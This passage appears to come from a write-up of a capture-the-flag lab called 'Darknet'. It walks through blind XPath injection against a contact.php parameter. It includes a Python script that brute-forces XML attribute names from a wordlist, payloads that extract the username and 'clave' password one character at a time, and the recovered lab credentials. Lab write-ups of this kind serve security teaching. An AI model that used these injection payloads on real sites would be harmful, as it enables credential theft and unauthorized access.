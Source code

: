 The script in action, determining that the XML has the structure `//auth/user`:
<script type="text/javascript" src="https://asciinema.org/a/ckyep1yvit8jxfo5fqbfxzn3u.js" id="asciicast-ckyep1yvit8jxfo5fqbfxzn3u" async></script>

I was now able to theorize that the XML may have the following structure when calling user information. `//auth/user[@id=1]/email` where `1` is the ID of the user in question. I knew about the `email` field as it was *almost* obvious. I also discovered the `username` field by guessing. I tried to apply the same brute force logic as I did to the values, but for some reason I was not getting any luck with payloads where I was trying to address attributes by position, such as with `[*1]` for the first. This did work in my local test environment but not on Darknet. I had everything I needed to get the credentials for login (I think?), but did not have the passwords.

Eventually I wrote another script to take some words from a wordlist and brute the attribute names, hoping to discover some more attributes!

```
import requests
import string
import sys

entry_point = 'http://signal8.darknet.com/contact.php'

payload = '1 and starts-with(name(//auth/user[id=1]/{word}),"{word}")=1'
with open('/usr/share/wfuzz/wordlist/general/spanish.txt') as f:
    for word in f.readlines():
        word = word.strip()
        r = requests.get(entry_point, params={'id': payload.format(word=word)})
        if 'darknet.com' in r.text:
            print 'Found attribute: {word}'.format(word=word)

```

Having noticed a large part of the sites have been in Spanish, I eventually used a Spanish wordlist and found the field name `clave` with it. Urgh, that was mildly frustrating. Anyways, this script in action:
<script type="text/javascript" src="https://asciinema.org/a/4fsl2fzb45yhpxxmr6ycwjpfe.js" id="asciicast-4fsl2fzb45yhpxxmr6ycwjpfe" async></script>

Finally. `username` & `clave`! As the final piece to this puzzle, I took the original script used to brute force the XML structure and modified the payloads to now brute the values for `username` and `clave`! The new payloads were:

```
'username': '1 and starts-with((//auth/user[id=1]/username),"{exfil}")=1',
'password': '1 and starts-with((//auth/user[id=1]/clave),"{exfil}")=1',
```

The brute force script in action with the new payloads:
<script type="text/javascript" src="https://asciinema.org/a/4obby2xqro3xo8gomfwh427mu.js" id="asciicast-4obby2xqro3xo8gomfwh427mu" async></script>

So the username and password combination that lets you login at http://signal8.darknet.com/xpanel/ is `errorlevel` / `tc65Igkq6DF`.

# the ploy
Once you have logged in, you presented with a page with a login to *Editor PHP*.
